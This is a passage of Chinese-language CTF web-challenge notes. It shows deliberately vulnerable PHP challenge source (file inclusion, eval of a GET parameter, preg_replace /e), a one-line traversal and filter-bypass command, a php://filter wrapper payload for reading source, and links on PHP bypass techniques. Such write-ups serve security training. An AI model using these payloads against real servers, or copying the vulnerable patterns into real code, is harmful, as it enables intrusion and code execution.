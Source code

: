 ```
```

用dir ../../../到根目录，发现flag，然后用ca\t%20../../../flag读出flag

### [BJDCTF2020]ZJCTF，不过如此

```
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>


<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

?text=data://text/plain,I have a dream&file=php://filter/read/convert.base64-encode/resource=next.php



### [MRCTF2020]套娃

```
$query = $_SERVER['QUERY_STRING'];
 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```


[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604
